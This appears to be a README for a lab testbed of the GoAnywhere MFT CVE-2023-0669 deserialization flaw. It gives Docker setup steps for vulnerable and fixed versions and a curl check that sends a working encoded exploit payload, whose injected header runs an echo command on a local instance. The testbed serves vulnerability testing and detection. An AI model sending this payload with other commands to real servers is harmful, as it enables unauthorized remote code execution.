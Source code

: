 # GoAnywhere MFT CVE-2023-0669

## Description of Vulnerability

GoAnywhere MFT RCE vulnerability CVE-2023-0669.

GoAnywhere MFT suffers from a pre-authentication command injection vulnerability in the License Response Servlet due to
deserializing an arbitrary attacker-controlled object.

All versions prior to 7.1.1 are affected,Update GoAnywhere MFT to a version that provides a fix 7.1.2 or later

## Launch Testbed

### Vulnerable setup

1. download image

```sh
docker pull kutzhanov/goanywhere:6.8.6
```

2. run container

```sh
docker run --rm --publish 38000:8000 kutzhanov/goanywhere:6.8.6
```

2. The instance will be available on [http://localhost:38000](http://localhost:38000)
3. Install goanywhere mft, fill license code[www.goanywhere.com/trial](www.goanywhere.com/trial) and create the
   administrator account



### Non-vulnerable setup

Repeat the process with a fixed version:

```sh
docker pull helpsystems/goanywhere-mft:7.1.3
docker run --rm --publish 38000:8000 helpsystems/goanywhere-mft:7.1.3





## Vulnerability Test

You can use the following command to check whether the instance is vulnerable or not

```
curl -s -H 'x-protect: echo goanywhere_vulnerability' --data-binary 'bundle=Jh88_jqGQWSbZmiCc1DErQhwOhCTLkYmA1yXgf86Ha5HF9IfVuQMLOfBS_fjlP7wTTEg2-Jx9nBDyFUKVTroXpFBt7zN1XDX58VKZCxCXlUD45d4laUUnNuzdyvNLT2b_gYKBi2-ny7fc2lOHNgalYV13mQzCTs0EgEUE9AuDUIMcFYx00pv4g4EOgEjeWbAx40rTtRby71AxapyXKy-4XChDHVlPB1AV3njBKGWT6gHdPxT8hb75Ycrpjdk9EQ1HW4WJiz4uaVBu7hXm_Eag15IpIWgojFy4hst8-q9YMms8Omq5lbdLabUHRcJAd6rLu6QrPLepYXQgGfMi_Qmj0qf5vXLfSX20cSBT_IEBlzzBR3lq_hiqrAfmZZCV3Y1HeMPpaMsmzL5zM1VTMX-5Pi5JGKMJ2Al2BZVZUUZQNqrcnueMVl1ZNhGMJ8eSFBCb4WGaNrhfgQ3sWUW3_A_ln_XwLi8z6XCOT5sJmFYZXBC4vYtY4leatX_o__lJHYPuA_TEmuEmEhIccj5Ou2xOvazmw9oXVUbM0vkPsb1UDyyTF0Ee85W0CUUCzb3rouvUDFaOZZLe08Z_Km2LgSq9Wr3fKojx_UevkOkOfwfiPlnJcQTRr45useRtOlHrJpP1iWSLi2vwK8bojMdCWzF13H8MmDjrJBCbcbChsXQkNcAJqkYa3y2SZXkwISRigFVLRnjDbyQLqLAzE0inCSf7NF9abKU5ZW8yMgF6NT802MJCz0gRJD6zLbFZSBYfGlzFJmu9-ZWYVywkwmu3xQrrA_tCRdqvd5zeHd3CgWOzBjOg55_iBNcPZOPYhMXD1ZEpPyG0CQpJfIUiblo4gGV0op-Mb2z5HIuvJ-l_YCxoYJi5RCdtgGoSmIo9wN59S0PeI6LI69EsoquDh7EA9Z7pc6XGk6rrbsJoFcV-lp_73dwmOH1U6pZRcEeMYgrB3n_R0BsoYHTika_iGEmmYv1CgBDfMlmVdQbtefAwh_AcJ9pyNACTwWdXQ0xmto3YYLbizDnmZ--NeiQ_534fTrGfjcIsbLgEnHcpG7Fwng72m7pHVy5LpurnRJXJyFBJW9IUF0vwH_UDZtAfeBK4kMbkuJrCTtQdyCks5SjfQWTArKeNGiKbGWReNhOnUnK8A2sxiYtvqlUi01mfOIfoc-9Lp6wXEBrNzWHH0zPWu4SNQmhR-JwmvFeIErraf83vz0_sRoU7IcSqKEF5zFjFF8n1oWqwBP5a3s_fKgbQ_UA74vmFh5cc_tlpBXS1oG8_EU5GAFI-woAA0Mlgkwmo-fGH1w1wB1LSOzgiT7r4QKDko55Timnwpk_D4RmXesvtu49-xyXcg4sL6NG5ujC6o5kKbTrwi7Vp8hjEx1v6nXeMfUbuWjYicH-ZIE_P_SMevvDUOQm3UZ67MbmdkReIR32TN_88A4J5dKN0QC08HLkYNSjsRp7XyXbSi5dZp3eQ6zkW9KuYU-S-NSBC9pV4arvsZXcwtWRTjweK49JIIgLMayI4y9TOjhg-LiwwzIlTY_t0KuzHSIYSw82LxmOeDhdQUC-sSOeV1G2sR095x3NDmfEfdvduTceU9cD3ofEFtedX5Z77aGFoVhdoG_hOjnYnaoaWYPe7JChYE0TZZfu3V7HF57X0cwoYYPDP6XzSf6kmxEWDoenYsPTmY_Evhqwp3Fhzko8_G-UR2tNH9JjIoouCEd8o8Gy7gnye2_u6wzCBuChv1yEug0miW8nSCQk69oHWeti94h1toBecBt70m8ySDHgL80vs4n5qHK2Mjv_eb3a5UrajOObvfoNMg_K85EudKBrdgW6bEV5KsZhFBDpDnxA7X8CHEHZiK4iDCFUCmSMCXQz7KqkHrcWh8l1ut7IPoxuiRhdI5wuNSw-xVmVwM1kJo5ahlOZcsARCNZ9NcAjcqojMDZjgkPo7lt-5Lrl2gPHg80YkNsfdB8Ao91vcZ6UuJ45ERB1G8V7TwxCMsHU8h8FFet1zb55rcBE-YJ5rvzaXif3OOFiS4MnA0LDszZkFJ4gW2SIMban79bz38yBnEz-au5l2SwkG7tY3DiKobiIz6ZJjOzVj2jAT7MsCpB8XNl8tCMYJHWErFrExXbosh-YvXoU8HCN_XALqBSZJyffqKu0iAYcyxc35QQl55ll-IybJU3Gu4LPGT6HXPlK3Hepmdd1ZhLzQG-adp465TzIDX-0YUK_Px-J0gmoW-kgUiGAVKrHIS4Qh-1E80u7GI_WUZTXSE7sgKUX-2qEUj6reo7Kf_4c_CZrwkA4RtoQrQMCs4Bs7dAft1eAqb9O-SDcW8kShwpUow3nz6PFKkdZ4SjYTNUjANTJT_7Yvzu-nHDPpEyriuZ4zcGKTadRgL2bbv1MwcTzJ1iCGMGXNk-sMiqOpqGdW_tAbfrGAuAjSiK5vCK4tO2xjR9qlMu9mzvC6FWXMlgoDFWbrXDSLUWWpgthJssAzniuX1iuGBlWmC7MzOCLQYyHKTIGDysqW4BgHQabqeXtqPoCLUCcCY8tlaACSFFe9ZQcQXgTHwClL5_TI2-9Cn5wIz28o-krld22hZ5KUWvXcW_278n6TxUJZPArM-KweuxdkzFYHjg1i8eZygMFz17MA9rUSTJzG7qvyXR_OIvI9EcGVP91noBQ2pN9zqFq7o81DRUmrNbNL1I4GPwK4kkLJVOJ1o6Hgw-zXmjeMveQII-aRzh-O2zZ9dpBJ8Yne7nWgeq1XAxW3A0lkqKr5hRbJD8najEI1xWvUEBHbPLD3oy4FGrs2Pegj7JlsGIwcmsQ8S_3bcp9ycdpNWXR0qgku3ltIZdFfW3Tnm-NFbfvkIRqmk8CaYsX2NlXGCJBLSt5HHioXDyUn1dRKvTpLx8aw41HqqGAACACvSWo0VLi4uXvxUZTgeA7q6BzH7KxptrTX62rBrU6R2ul5cgjTEYnakqcNUyJDjbxHBw1wY3k75erwfFj_pc6pE0PlB9zqIROk0yOiy2OWpg4KCAjryY1U0eOjnZVsoWjEuBT7Uvu0_9h04yZqToxRfu0WIODBLGJZ0lpx2bXtcaZPRFNwOFAeGHNpSY-ZO48bQR2Eo8kbB62w5DU6pKlFzCzK-bOzVvYUYDkYoQUSclOkW96M0hQ5DvJggB14AuXv0n4jsC1j_z4Yg1oeVnSbDA1PuGcAq8TovQX1KzpSHORoQFEhcclGxhc5-6kPt_cqImHd2C2UpYhVGEff3d2ShRzOETbELCR9w5OLY5EB4AxIOB9K4UUB-iqusjEmTYogjUUPhrHz1Dl88DD-W_QIR1fSpKDlCKWZXLWueZKXEFTKTIrWltCqbANJMPx5ww4Yo7jau6jZOPZWaZg_rApAJ4GhISBNRNUaRMUwRuKHrIaXBamJfkZXZNBJaUyv5uFXkCqkKlotr3JpOe8kBeFq_h-mmgM5G2pCK1LvnpIzXqMe1vPuR7om0ar4hRpV8aBlmhG9M7N2NQS50c-d96qKQQNDT_RgKslJfEPl4LuBie9IFlZ9qbpyq25XadMoDvDjuddAGb2jouTI8t1wXoK_fGMzUlPa7_Fq1yJqaeLF4gvoqZcEdocc0BZuM_8YqQGPhPRtxJ2wfnJ-9rdz58RNX8KoUnPEo7Y_GU5MqcmIsIqWgLkLHbFTytO9Xf2v90LKZoJy6vxfuD0C3ocGZ4syFrus4zZ0ydMU8L0b5A4Z9c4U7LE4kn79ujOBeseZDE1nAr2RL1c9ReAjJ6CLqpPYTihhLHglog64HMcxTGj1_fEnrNB53mzD0cw1UB5_kRE-Yr_JY0PRvYYGVfKfaXeklUVn3Rb-npVABFVQ6XrCN1dUFOhy4rUe3mZ3kyAXvjpXiRrkRnbKAk1c2ynLrIDetbNoQQGdIouuBEDX9NJIE9zKAttSQBpC5Xkoeu68oQcTU3IW_N848fuGIUsUl4oqO1wjNuG4TTBCCA82gu269_LCg5jB9JEa-DlhPzRwoGhJ4muc1ThgsINoLcevNu5iwP-ebUQfolW6ZdR3i12Eh9bZi3yiE7Sieb-dXx_qm5IrdlY0SZWKNC8OqlxVUzLaseMBE3kPrT-Dz6ClJXewCEU1vGYzPvKggCgg5clwEwsjGsOq7XYLGRJ9f5pMKZkcfO6-v4FpCk3fjHh0NDDZ8EE3i74a5fh1wVKsR2EJPpl6bEpWhMUDPtcavuTP7xbJC1sFDuLzoSE6qVXLbZFWPS6VMCEzkJ1-FxVsVE_WE4v72iygfLGZaOFgzyVOSEZAm8GThgHsxrKTb2_v5JcWLuock1Z6uva8P13htuNHACPZ3yhkXbuJ2b-6ucy2ZLurigtEDsNsmXsybmWdpS4vA6gnPDr5iSxVXz4BLyW0ShEbKLls_eJ_pH-y1b9Hw0KVVbcE05-bckumz7H-LwhcGVBsi2SKpoGSugH6gbX_fqrraMB0aC-0v6JIZ8WUNa7ElaMfJsE6XstjaE7KjXFHuhyQKeHgWKjm1oV8yLW7vRuqhs5RfWV3E09y2yASv_DY1WxMotFAqOHhz-zt3CiZCXQkPsjly3uHDKLrIjMYrHFvPPmQ8jD6AWiupBSVUi9yFnSFeZq8Ws3-Ki8JQEuWtMhCOsF5nBIb9NUifxO6sK2hUlbBVnhGV1PAz1FZ0tMHhFg7AVeviqUlePVASRtUQ-HmW9qPqH1UXiwysQAprepW6tHuExtYchRcla7ApOqUcQl1oCdQl6tsvn3ewlMTHvAyhUMjeap3yHlzUro-kFf-D285ircmCHRvoXgySqqZjO_8hkEcgBEWSp5Yn8xNZmw9PEthJzvAL2F6UfY58G_WrSIj5B-6GgHdgDVSzLiYSh_lrMFEd4QBtVYLz9KWlY5jjXxmN50RjWGhf2qx0iGrFC2ZnAwN6RxrB07Gl-nI2rAYVWoa_oIz_3s2rI7ll6fvzmdwKrSPNdcnG3MYVvTo8gAHrvhgFUje71_EgabRgOQv6XFCX6Vhsh9crycXjtISPU8ZWnf9tSQh-nUBplB2Go2WSmmLk1Rhu0deMsChn6dI7OQ-ed-36C_on1CY5bSuEkpJxxsNrcZTdmRG3KPlwHVcZ1kfFKlSTnFPjoOq1VLgLGuaOJFFiTerU2tbfj8rbgZbYOeZZToik7OirRjX_oTyKwHGQq5Y0d_W1Whwr8i5xK-V4HsdDOAOPv7NzL8-yxnL73kWP2357B_8yvUxHKjZ_ynyr--_ueBVZbOwnt4oBpbtsLh7_A6vo0MdBs2HpRRq8USpxlgN_s_2DNFRrxejgphOPDeHT-_mh7ey3lSZNMt3NU2M7lPWzWsffu5R5PXY9BxJT0PsUAgJS3i-sB5D4Fg7e4WiF83UroEYaz9mM0B-7VQ7hkqBgPEiDH2rZpUyhsG51TlYSbzb46g41vXdFpygqntOlEgBYkVbLwN3fIM9s2RL4908QD8o-ePuO-CnFL5KU5Yh7IcBx8a2FovJf07J7IoShuB2grZ7Uq8hwa5OJjZ0yN1pz1KsdT_OKONiiDiWvf67QRkrogsxA2PbFC4Qhr1ZwOnEO8fhZTFx_fdt5_z7RkjfObiDBNqGGY5iBnjxinzh67mODT_vohU7L3gPCkVnqcU2zUbiBsT-Xu0HGyQOPpBp5wS2QHln6GdmTkmARnSa4Mc1CU0x4YzmAoTU4v8xLCtucHHFHrYMB_MFJg_2rM_XxJVKjnU2ej7BFSbnyc_1XE12z9ca6dYywmwtTFtHSpJf-70SBU_nebcnTcUXMp2JTWdRUgGScybrwM4wGSYUq7THJqm297dQ9fJ9GjnWLOK3JQ7K2GjVWWmXKrlYlwKgx_3XDUUYErlZAw13_iQXLMZOUteWthVndxp9STpcQ' http://127.0.0.1:38000/goanywhere/lic/accept
```


A vulnerable instance will reply with the following message:

```
goanywhere_vulnerability
```



while a safe instance will reply with status code 400 and the following body:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE html>
<html xmlns="http://www.w3.org/1999/xhtml" lang="en"><head id="j_id_4"><link type="text/css" rel="stylesheet" href="/goanywhere/javax.faces.resource/theme.css.xhtml?ln=primefaces-aristo" />
......
```
